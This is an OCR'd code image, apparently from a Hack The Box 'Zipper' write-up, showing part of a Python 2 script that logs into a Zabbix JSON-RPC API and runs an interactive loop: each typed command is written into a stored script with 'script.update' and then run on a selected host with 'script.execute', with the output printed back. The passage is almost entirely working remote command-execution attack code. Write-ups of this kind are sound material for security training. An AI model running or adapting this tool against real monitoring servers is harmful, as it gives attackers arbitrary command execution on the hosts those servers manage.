      49 headers = {
     50     'content-type': 'application/json',
     51 }
     52 
     53 auth  = requests.post(url, data=json.dumps(payload), headers=(headers))
     54 auth = auth.json()
     55 
     56 while True:
     57         cmd = raw_input('\033[41m[' + hosts[execute_on]  + '_cmd]>>: \033[0m ')
     58         if cmd == "" : print "Result of last command:"
     59         if cmd == "quit" : break
     60         if cmd.lower().startswith('host ') and len(cmd.split(' ')) > 1:
     61             set_host(cmd.split(' ')[1])
     62             continue
     63 
     64 ### update
     65         payload = {
     66                 "jsonrpc": "2.0",
     67                 "method": "script.update",
     68                 "params": {
     69                     "scriptid": "1",
     70                     "command": ""+cmd+"",
     71                     "execute_on": str(execute_on)
     72                 },
     73                 "auth" : auth['result'],
     74                 "id" : 0,
     75         }
     76 
     77         cmd_upd = requests.post(url, data=json.dumps(payload), headers=(headers))
     78 
     79 ### execute
     80         payload = {
     81                 "jsonrpc": "2.0",
     82                 "method": "script.execute",
     83                 "params": {
     84                     "scriptid": "1",
     85                     "hostid": ""+hostid+""
     86                 },
     87                 "auth" : auth['result'],
     88                 "id" : 0,
     89         }
     90 
     91         cmd_exe = requests.post(url, data=json.dumps(payload), headers=(headers))
     92         cmd_exe = cmd_exe.json()
     93         try:
     94             print cmd_exe["result"]["value"]
     95         except KeyError:
     96             print("[-] Unexpected data: ")
     97             print(cmd_exe)
    

[](/2019/02/23/htb-zipper.html)

